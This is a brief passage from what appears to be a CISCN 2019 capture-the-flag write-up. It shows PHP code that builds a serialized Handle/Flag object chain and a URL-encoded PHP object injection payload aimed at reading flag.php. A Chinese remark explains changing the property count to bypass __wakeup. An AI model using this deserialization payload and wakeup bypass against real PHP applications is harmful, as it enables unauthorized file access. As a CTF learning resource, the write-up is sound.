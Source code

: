 ```
}


$flag = new Flag('flag.php');
$flag ->token = &$flag -> token_flag;
$exp = new Handle($flag);
echo urlencode(serialize($exp)).PHP_EOL;
?>
```

```
Payload
O%3A6%3A%22Handle%22%3A1%3A%7Bs%3A14%3A%22%00Handle%00handle%22%3BO%3A4%3A%22Flag%22%3A3%3A%7Bs%3A4%3A%22file%22%3Bs%3A8%3A%22flag.php%22%3Bs%3A10%3A%22token_flag%22%3BN%3Bs%3A5%3A%22token%22%3BR%3A4%3B%7D%7D
```


还要把红色位置的1改为2，不然会跳进Waking up函数

```
O%3A6%3A%22Handle%22%3A2%3A%7Bs%3A14%3A%22%00Handle%00handle%22%3BO%3A4%3A%22Flag%22%3A3%3A%7Bs%3A4%3A%22file%22%3Bs%3A8%3A%22flag.php%22%3Bs%3A10%3A%22token_flag%22%3BN%3Bs%3A5%3A%22token%22%3BR%3A4%3B%7D%7D

O:6:"Handle":2:{s:14:".Handle.handle";O:4:"Flag":3:{s:4:"file";s:8:"flag.php";s:10:"token_flag";N;s:5:"token";R:4;}}
```

<img src="/images/posts/csicn2019/1556159071588.png" >

### puzzle

question 0
a1,a2,a3,a4

<img src="/images/posts/csicn2019/1556159156199.png" >
